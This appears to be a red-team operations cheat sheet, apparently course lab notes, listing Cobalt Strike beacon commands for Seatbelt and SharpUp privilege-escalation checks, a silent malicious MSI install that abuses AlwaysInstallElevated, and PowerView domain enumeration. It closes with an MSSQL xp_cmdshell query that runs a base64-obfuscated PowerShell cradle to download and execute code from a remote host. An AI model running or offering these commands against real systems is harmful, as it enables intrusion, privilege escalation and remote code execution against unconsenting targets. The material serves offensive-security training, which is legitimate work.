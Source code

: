 # RTO CheatSheet

## Persistence

### COM Hijacking

<TODO>
  
## PrivEsc
  
### Seatbelt
  
https://github.com/GhostPack/Seatbelt
  
Sample usage:
  
> beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe -group=system
  
### SharpUp

https://github.com/GhostPack/SharpUp

Sample usage:
  
> beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe
> 
> === Modifiable Services ===
> 
>  Name             : Vuln-Service-2
>
>  DisplayName      : Vuln-Service-2
>
>  Description      : 
>
>  State            : Running
>
>  StartMode        : Auto
>
>  PathName         : "C:\Program Files\Vuln Services\Service 2.exe"

Detects:
  - Modifiable Service
  - AlwaysInstallElevated flags in Registry
  
#### Weaponized

##### AlwaysInstallElevated - Install msi package file

> beacon> run msiexec /i BeaconInstaller.msi /q /n
  
## Domain Enumeration
  
### PowerView
  
#### Setup

> beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
  
#### Usages
  
Retrieve Domain information, parameter is optional:
  
> beacon> powershell Get-Domain -Domain <Domain>

Retrieve Domain Controllers and further Domain information:

> beacon> powershell Get-DomainController | select Forest, Name, OSVersion | fl
  
Retrieve Forest information, parameter is optional:
  
> beacon> powershell Get-ForestDomain -Forest [Forest]
  
Get useful information about domain policies like password policies e.g
  
> beacon> powershell Get-DomainPolicyData | select -ExpandProperty SystemAccess
  
Get User information:
  
> beacon> powershell Get-DomainUser -Identity [username] -Properties DisplayName, MemberOf | fl
  
## MSSQL
  
> SELECT * FROM OPENQUERY("sql02.dev.zeropointsecurity.co.uk", 'select @@servername; exec xp_cmdshell ''powershell -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADIAMQAuADEAMQAyADoAOAAwADgAMAAvAHAAaQB2AG8AdAAtADMANwAyADEAJwApACkA''');
